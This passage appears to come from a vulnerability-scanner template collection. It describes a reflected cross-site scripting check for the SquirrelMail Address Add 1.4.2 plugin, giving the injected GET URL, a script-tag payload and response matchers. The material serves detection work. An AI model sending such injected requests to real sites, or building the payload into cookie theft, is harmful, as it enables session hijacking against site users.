 - words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# SquirrelMail Address Add 1.4.2 - Cross-Site Scripting

## Description

- SquirrelMail Address Add 1.4.2 plugin contains a cross-site scripting vulnerability. It fails to properly sanitize user-supplied input, thus allowing an attacker to execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - edb,xss,squirrelmail,plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/plugins/address_add/add.php?first=HOVER%20ME!%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

---

# Blackboard - Cross-Site Scripting
